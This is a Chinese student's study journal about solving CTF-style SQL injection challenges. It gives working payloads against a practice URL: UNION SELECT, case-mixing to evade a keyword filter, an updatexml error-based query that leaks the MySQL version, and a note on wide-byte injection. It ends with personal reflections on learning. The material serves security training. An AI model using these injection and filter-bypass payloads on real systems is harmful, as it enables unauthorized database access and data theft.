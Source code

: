 ```
http://103.238.227.13:10084/?id=1 union select 1,2 --+
return：包含敏感关键字
```

好吧看来这个题又需要绕过，那就试试几个常规的绕过方法吧

首先试的大小写绕过

```
http://103.238.227.13:10084/?id=1 UnIon SelEct 1,2 --+
回显正常
```
（图5）

成功绕过敏感词

接下来查看数据库版本，此处用到了表哥给的资料（https://www.waitalone.cn/mysql-error-based-injection.html），结果....

```
http://103.238.227.13:10084/?id=1+and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
包含敏感关键字
```

又来...包含敏感关键字X_X
然后再开启capslook改改改，结果...出来啦
XPATH syntax error: '~5.5.48-log~'

（图6）


## 4.7记录
今天仔细地看了书中关于SQL注入漏洞的讲解，再结合之前表哥给的writeup，基本了解到sql语句的含义。以前只会照搬着用，今天结合书本和学校平台上的注入题，一点一点摸索尝试感觉印象比看着别人的WP做很多题更深刻。
今天看的是：SQL注入原理，注入漏洞分类，常见数据库注入（SQL Server, MySQL注释、获取元数据、UNION查询、MySQL函数利用...）

## 4.9记录（2）
MySQL显错式注入（使用错误提取信息/通过异常提取信息/利用mysql中的一些特性提取信息如函数）
宽字节注入 --宽字节注入是由于编码不统一所造成的，这种注入一般出现在PHP+MYSQL中（如果写？id=’ 会被转义成\'从而无法做到闭合，所以此处利用？id=%d5'突破PHP的转义，继而闭合sql语句进行SQL注入）

看完这部分手痒痒，找到上周的第一个注入题又做了一遍，上周只是跟着比划着做，一边模仿一遍嘟囔 这是啥这又是啥这是什么鬼我又抄错了要疯，现在再看状态就是 嗯嗯对和书上写的一样这个函数原来是这样用欸前两页写过这个翻书查函数...就是注入语句还记不住不会默写==，多写几次应该就会了==

今天把剩下的两个题给做完了，虽然比别人慢了好几天但还是学到了很多东西。


---

这周关于SQL以外的想法：

一开始表哥把四个题发下来的时候其实我没想过我要去做，因为总觉得自己来的比别人晚，基础又没有，认为表哥发这些我连名字都看不懂的不知道是干嘛的题是为其他人准备的，想着先做ctf上的题这些以后再说。

然后好像很积极的样子过了个清明假期...直到最后一天下午，该交总结了，问立强表哥能不能写CTF上的东西，结果表哥说我这样不行，这些东西早晚都是要学的，让我去好好请教李文虎表哥....有点想哭没想到最后还是得做

剩了不到一下午的时间很着急，没办法 啥都不会的自己硬着头皮去找文虎表哥，那时候表哥们的writeup已经写出来了，在表哥的指导下跟着葫芦画瓢做一个题，勉强交了writeup...
因为计划好了这周把这几个注入搞定，结合买的《web深度剖析》上面的知识和线上资料学习注入，发现SQL题并没有想象中的那样十分十分十分的难和痛苦遥不可及...于是决定第二天把剩下的做完。结果呵呵了，被高数离散大物缠的焦头烂额直到周末才做完这四个题。
反正就是吧，以后千万不要再逃避了，“以后再”也不可以成为我的挡箭牌，不尝试不用功就不可能学到东西。

很多事并没有想象中的那样困难。

另外：感谢李文虎表哥耐心的指导~

